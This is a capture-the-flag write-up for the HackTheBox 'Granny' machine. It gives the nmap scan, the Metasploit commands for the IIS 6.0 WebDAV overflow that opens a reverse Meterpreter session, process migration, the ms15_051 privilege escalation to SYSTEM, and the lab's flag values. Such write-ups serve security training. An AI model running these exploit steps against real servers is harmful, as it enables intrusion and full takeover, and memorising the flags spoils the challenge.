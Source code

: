 # HackTheBox Walkthrough - Granny

**Machine Name**: Granny  
**Target IP**: 10.129.95.234  
**Operating System**: Windows  
**Difficulty**: Easy  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Granny 10.129.95.234
```
![nmap](img/nmap.png)

**Open Ports:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
```

**Interesting Findings:**
- Potentially risky HTTP methods: `TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT`
- WebDAV enabled
- Server: Microsoft-IIS/6.0

---

## 🚪 Initial Access

### 🔍 Exploit Search

- Exploit Title: Microsoft IIS - WebDav 'ScStoragePathFromUrl' Remote Overflow (Metasploit)
- ExploitDB: [41992](https://www.exploit-db.com/exploits/41992)
![exploitdb](img/exploitdb.png)

### 🎯 Exploitation (Metasploit)

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.234
set LHOST 10.10.14.72
run
```

✅ Meterpreter session opened.

```bash
getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

### 🔁 Privilege Escalation (Process Migration)

```bash
ps
migrate 1956  # wmiprvse.exe (NT AUTHORITY\NETWORK SERVICE)
getuid
# NT AUTHORITY\NETWORK SERVICE
```
![migrate](img/migrate.png)

---

## 🧨 Privilege Escalation

### 🔍 Local Exploit Suggester

```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
![recon](img/recon.png)

**Notable Exploit Candidates:**
- `ms15_051_client_copy_image`

### 🚀 Exploiting `ms15_051_client_copy_image`

```bash
use exploit/windows/local/ms15_051_client_copy_image
set SESSION 1
set LHOST 10.10.14.72
run
getuid
# NT AUTHORITY\SYSTEM
```
![system_privilege](img/system_privilege.png)

✅ SYSTEM Shell acquired

---

## 🏁 Flags

### 👤 User Flag
![userflag](img/userflag.png)

```bash
cat C:\\Documents and Settings\\[USERNAME]\\Desktop\\user.txt
700c5dc163014e22b3e408f8703f67d1
```

### 👑 Root Flag
![rootflag](img/rootflag.png)

```bash
cat C:\\Documents and Settings\\Administrator\\Desktop\\root.txt
aa4beed1c0584445ab463a6747bd06e9
```

---

## 🧠 Summary

- Windows IIS 6.0 with WebDAV exposed → RCE using MSF exploit
- Privilege escalation via `ms15_051_client_copy_image` kernel exploit
- Gained SYSTEM access and retrieved flags
